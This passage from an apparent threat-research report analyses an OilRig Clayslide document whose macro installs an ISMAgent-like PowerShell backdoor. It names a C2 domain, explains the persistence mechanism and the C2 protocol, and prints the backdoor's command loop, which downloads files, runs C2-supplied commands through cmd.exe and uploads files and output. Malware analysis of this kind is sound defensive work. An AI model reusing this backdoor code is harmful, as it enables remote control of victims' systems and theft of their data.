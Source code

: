 


12345678910111213141516

ChangeAliveSeconds ChangeAddress SI GetConfig RunNewVersion restart remove FastAlive ExecuteKL GetVersion PauseUpload ResumeUpload PauseDownload ResumeDownload PWS ImmediateResetRam






From Helminth to ISMAgent
During our data collection process, we discovered a Clayslide delivery document (SHA256: ca8cec08b4c74cf68c71a39176bfc8ee1ae4372f98f75c892706b2648b1e7530) from September 2016 containing a payload that appeared to be the Helminth script variant as found in other Clayslide documents, but upon further examination was wholly different. The macro within this Clayslide documents obtains a PowerShell script from a cell in the “Incompatible” worksheet, much like previous samples. The macro then saves a VBScript to %PUBLIC%\Libraries\LicenseCheck.vbs to run this PowerShell script every 3 minutes.
Like the Helminth script variants, this PowerShell script is a malicious payload that uses both HTTP requests and DNS tunneling to interact with its C2 server. However, the HTTP requests and the protocol employed to perform DNS tunneling differs dramatically from Helminth scripts installed by all other known Clayslide samples. The HTTP requests and DNS tunneling protocol found in this PowerShell script are instead identical to ISMAgent.
The C2 domain used for this script was mslicensecheck[.]com, which had previously been reported by LogRhythm in their OilRig whitepaper. Interestingly, it was the only domain associated with OilRig that did not have an IP resolution at its second-level, much like the ISMAgent samples.
The “doIt” function within the PowerShell script, seen in Figure 7, is responsible for initiating the C2 communications, as well as parsing the data provided by the C2 server to run the appropriate commands. This function uses the strings “/action2/”, “/response/” and “/upload/” within the C2 URLs when using HTTP to communicate with the C2 server. This behavior and these strings were also observed in the ISMAgent C2 behavior. The “doIt” function also shows that the C2 server will respond with data structured the same way as ISMAgent, using “#” as a delimiter and various offsets such as offset 0 used in subsequent requests with the C2, offset 2 specifying a URL to download a file from, offset 3 specifying a command to execute using command-prompt, and offset 4 specifying a path to a file to upload to the C2 server.





 function doIt(){
  try{
   while($true){
    $res = get($ha+"/action2/"+$id)
    $p = $res.split('#')
    if ($p.Length -lt 5) { break }
    $res = $tmp+$p[0]
    $u = $ha+"/response/"+$id+"/"+$p[0]
    if ($p[2] -ne '') {
     $name= $p[2].SubString($p[2].LastIndexOf("/")+1)
     download $p[2] ($tmp+$name)
     [IO.File]::WriteAllText($res,"done", [System.Text.Encoding]::Unicode)
    }
    if($p[3] -ne ''){
     $p[3] | cmd.exe &gt;&gt; $res
    }
    if($p[4] -ne ''){
     upload $u.Replace("/response/","/upload/") $p[4]
    }
    upload $u $res 
    [IO.File]::Delete($res)
   }
  } catch {}
 }
